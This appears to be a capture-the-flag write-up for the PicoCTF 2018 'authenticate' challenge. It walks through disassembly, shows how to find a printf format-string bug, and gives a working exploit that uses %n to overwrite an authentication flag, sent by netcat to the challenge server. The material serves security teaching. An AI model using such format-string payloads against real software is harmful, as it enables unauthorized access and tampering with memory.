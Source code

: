# Write-up for shellcode challenge
# PicoCTF_2018: authenticate

**Category:** Binary Exploitation
**Points:** 350

>Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 52918. Source.

> # Introduction
In this write-up we're gonna perform a format string attack. I shall show it with ASLR disabled.(See what ASLR is [here](https://github.com/giannoulispanagiotis/picoCTF-2018-wiretup/tree/master/got2learnlibc#aslr))

> # Vulnerability

As I said before, in this challenge Ι'm going to present to you a format string attack. And, what is that? You'll find soon.
First of all, let's disassemble our binary with gdb to see if we can find a vulnerability to exploit.

```asm
Dump of assembler code for function main:
=> 0x0804871d <+0>:	lea    ecx,[esp+0x4]
   0x08048721 <+4>:	and    esp,0xfffffff0
   0x08048724 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048727 <+10>:	push   ebp
   0x08048728 <+11>:	mov    ebp,esp
   0x0804872a <+13>:	push   ecx
   0x0804872b <+14>:	sub    esp,0x64
   0x0804872e <+17>:	mov    eax,ecx
   0x08048730 <+19>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048733 <+22>:	mov    DWORD PTR [ebp-0x5c],eax
   0x08048736 <+25>:	mov    eax,gs:0x14
   0x0804873c <+31>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804873f <+34>:	xor    eax,eax
   0x08048741 <+36>:	mov    eax,ds:0x804a044
   0x08048746 <+41>:	push   0x0
   0x08048748 <+43>:	push   0x2
   0x0804874a <+45>:	push   0x0
   0x0804874c <+47>:	push   eax
   0x0804874d <+48>:	call   0x8048520 <setvbuf@plt>
   0x08048752 <+53>:	add    esp,0x10
   0x08048755 <+56>:	call   0x80484e0 <getegid@plt>
   0x0804875a <+61>:	mov    DWORD PTR [ebp-0x50],eax
   0x0804875d <+64>:	sub    esp,0x4
   0x08048760 <+67>:	push   DWORD PTR [ebp-0x50]
   0x08048763 <+70>:	push   DWORD PTR [ebp-0x50]
   0x08048766 <+73>:	push   DWORD PTR [ebp-0x50]   
   0x08048769 <+76>:	call   0x8048540 <setresgid@plt>
   0x0804876e <+81>:	add    esp,0x10
   0x08048771 <+84>:	sub    esp,0xc
   0x08048774 <+87>:	push   0x8048968
   0x08048779 <+92>:	call   0x80484f0 <puts@plt>
   0x0804877e <+97>:	add    esp,0x10
   0x08048781 <+100>:	mov    eax,ds:0x804a040
   0x08048786 <+105>:	sub    esp,0x4
   0x08048789 <+108>:	push   eax
   0x0804878a <+109>:	push   0x40
   0x0804878c <+111>:	lea    eax,[ebp-0x4c]
   0x0804878f <+114>:	push   eax
   0x08048790 <+115>:	call   0x80484c0 <fgets@plt>
   0x08048795 <+120>:	add    esp,0x10
   0x08048798 <+123>:	sub    esp,0x8
   0x0804879b <+126>:	push   0x8048992
   0x080487a0 <+131>:	lea    eax,[ebp-0x4c]
   0x080487a3 <+134>:	push   eax
   0x080487a4 <+135>:	call   0x80484a0 <strstr@plt>
   0x080487a9 <+140>:	add    esp,0x10
   0x080487ac <+143>:	test   eax,eax
   0x080487ae <+145>:	je     0x80487ca <main+173>
   0x080487b0 <+147>:	sub    esp,0xc
   0x080487b3 <+150>:	push   0x8048995
   0x080487b8 <+155>:	call   0x80484f0 <puts@plt>
   0x080487bd <+160>:	add    esp,0x10
   0x080487c0 <+163>:	sub    esp,0xc
   0x080487c3 <+166>:	push   0x1
   0x080487c5 <+168>:	call   0x8048500 <exit@plt>
   0x080487ca <+173>:	sub    esp,0x8
   0x080487cd <+176>:	push   0x80489a6
   0x080487d2 <+181>:	lea    eax,[ebp-0x4c]
   0x080487d5 <+184>:	push   eax
   0x080487d6 <+185>:	call   0x80484a0 <strstr@plt>
   0x080487db <+190>:	add    esp,0x10
   0x080487de <+193>:	test   eax,eax
   0x080487e0 <+195>:	jne    0x8048801 <main+228>
   0x080487e2 <+197>:	sub    esp,0xc
   0x080487e5 <+200>:	push   0x80489aa
   0x080487ea <+205>:	call   0x80484f0 <puts@plt>
   0x080487ef <+210>:	add    esp,0x10
   0x080487f2 <+213>:	sub    esp,0xc
   0x080487f5 <+216>:	lea    eax,[ebp-0x4c]
   0x080487f8 <+219>:	push   eax
   0x080487f9 <+220>:	call   0x80484b0 <printf@plt>
   0x080487fe <+225>:	add    esp,0x10
   0x08048801 <+228>:	call   0x80486e4 <read_flag>
   0x08048806 <+233>:	mov    eax,0x0
   0x0804880b <+238>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804880e <+241>:	xor    edx,DWORD PTR gs:0x14
   0x08048815 <+248>:	je     0x804881c <main+255>
   0x08048817 <+250>:	call   0x80484d0 <__stack_chk_fail@plt>
   0x0804881c <+255>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804881f <+258>:	leave  
   0x08048820 <+259>:	lea    esp,[ecx-0x4]
   0x08048823 <+262>:	ret    
End of assembler dump.
```

Hmm, at first sight we can't find something wrong in this code (there is not gets here, fgets is safe unfortunately).But, running the code we notice that **0x080487f9 <+220>:	call   0x80484b0 <printf@plt>** takes only one argument (our input specifically).

![Screenshot from 2019-10-11 21-26-50](https://user-images.githubusercontent.com/37578272/66675391-e93a1900-ec6d-11e9-9478-c202105cd70b.png)

So, if our input is hello_world (like above) everything is gonna be alright:
printf("hello_world") gives us hello_world.
Think about it for a minute before you see the solution.

If we parse as an argument something like "%d %d %d %d", what's going to happen?

![Screenshot from 2019-10-11 21-36-56](https://user-images.githubusercontent.com/37578272/66677578-9c0c7600-ec72-11e9-84a7-370eb777c5b6.png)
We see some random numbers. printf("%d %d %d %d") will search for addresses of 4 variables to print 4 integers.
However, we haven't parsed 2nd argument inside printf, hence the integers that it prints are some numbers in the stack. Same thing happens with "%x %x %x %x" and now we get some hex values:

![Screenshot from 2019-10-11 21-37-10](https://user-images.githubusercontent.com/37578272/66677581-9d3da300-ec72-11e9-9e37-d96a8c2dba01.png)


Where in the stack are those hex values? We'll find out in a minute. But first, we didn't say how we are going to get this flag. 
Let's examine read_flag function.

```asm
Dump of assembler code for function read_flag:
   0x080486e4 <+0>:	push   ebp
   0x080486e5 <+1>:	mov    ebp,esp
   0x080486e7 <+3>:	sub    esp,0x8
   0x080486ea <+6>:	mov    eax,ds:0x804a04c
   0x080486ef <+11>:	test   eax,eax
   0x080486f1 <+13>:	jne    0x8048705 <read_flag+33>
   0x080486f3 <+15>:	sub    esp,0xc
   0x080486f6 <+18>:	push   0x8048934
   0x080486fb <+23>:	call   0x80484f0 <puts@plt>
   0x08048700 <+28>:	add    esp,0x10
   0x08048703 <+31>:	jmp    0x804871a <read_flag+54>
   0x08048705 <+33>:	sub    esp,0xc
   0x08048708 <+36>:	push   0x8048958
   0x0804870d <+41>:	call   0x80484f0 <puts@plt>
   0x08048712 <+46>:	add    esp,0x10
   0x08048715 <+49>:	call   0x804865b <flag>
   0x0804871a <+54>:	nop
   0x0804871b <+55>:	leave  
   0x0804871c <+56>:	ret    
End of assembler dump.
```
In this instruction: **0x080486ea <+6>:	mov    eax,ds:0x804a04c**  we notice an address(data segment). 0x804a04c is an address of a global variable called authenticated. Authenticated is initialized to zero. We then see, **test eax, eax**.
So, if we  modify authenticated variable, test will enable ZF(zero flag) and  we will jump to the flag function, which would give us the flag.
How can we modify it?

We know the address of variable (This instruction is hardcoded which means that authenticated variable will always be on this address, and this makes it easier for us--ASLR is disabled--), and we know that printf is a vulnerable function right now.

Have you ever heard about %n inside printf? 
Man page of printf tells us about %n:
![Screenshot from 2019-10-11 21-11-58](https://user-images.githubusercontent.com/37578272/66677231-da556580-ec71-11e9-8dbe-57f6fb354c97.png)

Ohhh that's too serious. "%n" let us write things in memory. For example:

printf("Hello World%n", &var): writes to var the length of Hello World (=11). Here, we don't have second argument, if we could find where in the stack were those printed values we saw above, with fgets we could parse the address of authenticated and with %n we could write to it. 

Let's test as input this: AAAAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x.

![Screenshot from 2019-10-11 22-03-26](https://user-images.githubusercontent.com/37578272/66677735-fad1ef80-ec72-11e9-90ea-0d592a15c845.png)

We hitted the A's of our input and the first %x (0x782520-->ascii code of %x). So, if we change first 4 A's with variable's address and decrease %x's by 2 the last hex value will be the address.

```bash
python -c 'print "\x4c\xa0\x04\08" + "AAAA" + "%x "*11' | ./auth
```
![Screenshot from 2019-10-11 22-18-43](https://user-images.githubusercontent.com/37578272/66678683-1fc76200-ec75-11e9-988c-cf28b3053e14.png)

And it's true. Therefor, we change the last "%x" with a "%n". So in the address: 0x0804a04c %n will print length of \x4c\xa0\x04\08AAAA"%x "*10. 

Autenticated will be modified and we'll get the flag. Let's do it. 

Our exploit:
```bash
#!/bin/bash 
 
python -c 'print "\x4c\xa0\x04\x08" + "AAAA" +  "%x "*10 + "%n"' > payload 
 
cat payload | nc 2018shell.picoctf.com 52918 | tail -1  
```

Congrats, we got our flag. See you in the next challenge.




